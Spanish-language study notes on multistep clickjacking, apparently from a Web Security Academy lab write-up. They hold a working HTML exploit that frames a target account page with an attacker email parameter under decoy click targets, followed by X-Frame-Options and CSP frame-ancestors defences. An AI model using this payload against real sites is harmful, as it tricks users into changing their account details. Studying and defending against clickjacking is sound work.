




La manipulación de las entradas a un sitio web objetivo por parte de un atacante puede requerir múltiples acciones. Por ejemplo, un atacante podría querer engañar a un usuario para que compre algo en un sitio web minorista, por lo que es necesario añadir artículos a la cesta de la compra antes de realizar el pedido. El atacante puede llevar a cabo estas acciones utilizando múltiples divisiones o iframes. Para que estos ataques sean eficaces y sigilosos, requieren una precisión y un cuidado considerables por parte del atacante.



## Lab: Multistep clickjacking




```c
<!DOCTYPE html>
<html lang="en">

<body>
    <style>
        iframe {
            position:relative;
            width:1000px;
            height:600px;
            opacity: 30%;
            z-index: 2;
        }
		 .firstClick, .secondClick {
		position:absolute;
		top:545px;
		left:60px;
		z-index: 1;
	}
		.secondClick {
		top:315px;
		left:200px;
	}
    </style>
	<div class="firstClick">Click me first</div>
	<div class="secondClick">Click me next</div>
    <iframe src="https://0a75009c043d9309803ce02a003b00bd.web-security-academy.net/my-account?email=hacker@evil.com"></iframe>
</body>
</html>
```






## Cómo prevenir los ataques de clickjacking

El clickjacking es un comportamiento del navegador y su éxito o fracaso depende de la funcionalidad del navegador y de su conformidad con los estándares web vigentes y las mejores prácticas. La protección contra el clickjacking por parte del servidor se proporciona definiendo y comunicando restricciones sobre el uso de componentes como los iframes. Sin embargo, la implementación de la protección depende del cumplimiento por parte del navegador y de la aplicación de estas restricciones. Dos mecanismos para la protección contra el clickjacking por parte del servidor son X-Frame-Options y Content Security Policy.

### X-Frame-Options

X-Frame-Options se introdujo originalmente como un encabezado de respuesta no oficial en Internet Explorer 8 y fue rápidamente adoptado por otros navegadores. El encabezado proporciona al propietario del sitio web control sobre el uso de iframes u objetos, de modo que se puede prohibir la inclusión de una página web dentro de un marco con la directiva deny:

```c
X-Frame-Options: deny
```

Alternativamente, el framing puede restringirse al mismo origen que el sitio web utilizando la directiva sameorigin.

```c
X-Frame-Options: sameorigin
```

o a un sitio web específico utilizando la directiva allow-from:

```c
X-Frame-Options: allow-from https://normal-website.com
```

X-Frame-Options no se implementa de manera uniforme en todos los navegadores (la directiva allow-from no es compatible con Chrome versión 76 ni Safari 12, por ejemplo). Sin embargo, cuando se aplica correctamente junto con la política de seguridad de contenidos como parte de una estrategia de defensa multicapa, puede proporcionar una protección eficaz contra los ataques de clickjacking.

### Content Security Policy (CSP)

La Política de Seguridad de Contenido (CSP) es un mecanismo de detección y prevención que proporciona mitigación contra ataques como XSS y clickjacking. La CSP se implementa normalmente en el servidor web como un encabezado de retorno con el siguiente formato:

```c
Content-Security-Policy: policy
```

donde policy es una cadena de directivas de política separadas por punto y coma. El CSP proporciona al navegador del cliente información sobre las fuentes permitidas de recursos web que el navegador puede aplicar a la detección e interceptación de comportamientos maliciosos.

La protección recomendada contra el clickjacking es incorporar la directiva frame-ancestors en la política de seguridad de contenidos (CSP) de la aplicación. La directiva frame-ancestors «none» tiene un comportamiento similar a la directiva X-Frame-Options deny. La directiva frame-ancestors «self» es, en términos generales, equivalente a la directiva X-Frame-Options sameorigin. La siguiente CSP incluye en la lista blanca solo los marcos del mismo dominio:

```c
Content-Security-Policy: frame-ancestors 'self';
```

Alternativamente, el encuadre puede restringirse a sitios específicos:

```c
Content-Security-Policy: frame-ancestors normal-website.com;
```

Para ser eficaces contra el clickjacking y el XSS, las CSP deben desarrollarse, implementarse y probarse cuidadosamente, y deben utilizarse como parte de una estrategia de defensa multicapa.


